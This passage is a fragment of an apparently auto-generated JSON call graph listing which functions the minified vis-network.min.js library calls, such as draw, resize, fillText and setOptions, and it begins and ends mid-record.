"static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "ctxRenderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDimensionsFromLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initContextForDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performFill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_icon"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_resizeImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "switchImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "performStroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawImageLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setMargins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_load_images"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateGroupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "customScalingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "visible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "checkCoordinateOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateGroupOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "needsRefresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "positionInitially"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawImageAtPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", 